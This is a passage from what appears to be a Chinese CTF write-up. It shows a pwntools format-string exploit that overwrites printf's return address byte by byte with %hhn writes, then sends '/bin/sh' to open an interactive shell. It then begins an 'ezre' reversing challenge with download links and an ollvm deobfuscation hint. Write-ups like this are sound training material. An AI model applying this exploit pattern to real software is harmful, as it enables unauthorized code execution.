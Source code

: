 ```bash
for i in range(6):
    cur_bytes = change_byte % 256
    change_byte //= 256
    print(hex(cur_bytes))
    print(hex(addr_write + i))
    # begin with 6
    payload = 'A' * 5 + "%9$hhn" + '%' + str(cur_bytes - 5) + "c"+ "%10$hhn"
    payload = payload.encode()
    assert len(payload) <= 0x18
    payload = payload.ljust(0x18, b'a')
    payload += p64(addr_printf_ret)
    payload += p64(addr_write + i)
    payload = payload.ljust(0x30, b'a')

    p.send(payload)

p.send(b'/bin/sh\x00'.ljust(0x30, b'a'))
p.interactive()
```

### ezre

> [附件下载](https://pan.baidu.com/s/1ieK13stXEcSqqhDLC1tLBw) 提取码（GAME）[备用下载](https://share.weiyun.com/8GkVSR5O)

解开 ollvm，对照原算法写出逆向版本即可
